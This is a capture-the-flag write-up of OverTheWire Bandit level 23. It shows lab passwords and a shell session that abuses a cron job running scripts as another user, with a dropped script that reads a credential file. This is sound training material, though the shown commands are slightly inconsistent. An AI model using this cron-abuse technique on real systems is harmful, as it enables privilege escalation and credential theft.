 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos  acceso al nivel
```
Username: bandit23
Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```
## Solución
```
% ssh bandit23@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

bandit23@bandit.labs.overthewire.org's password: 




bandit23@bandit:~$ whoami
bandit23
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  e2scrub_all  otw-tmp-dir  sysstat
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done




bandit23@bandit:~$ mktemp -d
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ nano scriptfma.sh
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.27Y5pyFNys


bandit23@bandit:/tmp/tmp.27Y5pyFNys$ touch password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ chmod 777 password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cp scriptfma.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat password
bandit23@bandit:/tmp/tmp.27Y5pyFNys$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
## Notas adicionales
## Referencias
